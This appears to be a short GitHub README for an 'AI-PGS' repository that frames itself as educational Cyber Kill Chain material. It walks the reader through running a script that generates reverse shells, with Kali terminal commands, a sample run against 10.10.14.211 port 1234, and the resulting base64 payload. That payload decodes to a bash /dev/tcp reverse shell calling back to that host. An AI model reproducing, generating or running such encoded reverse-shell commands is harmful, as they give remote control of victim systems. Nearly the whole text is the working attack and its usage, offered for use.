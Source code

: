 # AI-PGS

# Focus on Cyber Kill Chain Framework for educational purposes. Harness AI to generate diverse, high-quality scripts from user prompts. Explore various genres with customizable parameters.

To use the scripts on this vault follow the instructions:

1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension:

    ┌──(kali㉿kali)-[~]
    
    └─$ view BASE64-Reserse-Shell-Prompter.py
    
2 - Provide Execution (+x) permissions:

    ┌──(kali㉿kali)-[~]
    
    └─$ chmod +x BASE64-Reserse-Shell-Prompter.py
    
3 - Use the script:

    ┌──(kali㉿kali)-[~]
    
    └─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
    
Base64-encoded Bash shell session command:

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx

The following methods can discover the usage:

- Analyze the source code:
  
    ┌──(kali㉿kali)-[~]
  
    └─$ less BASE64-Reserse-Shell-Prompter.py
  

- Check if a usage prompt is available:
    └─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>
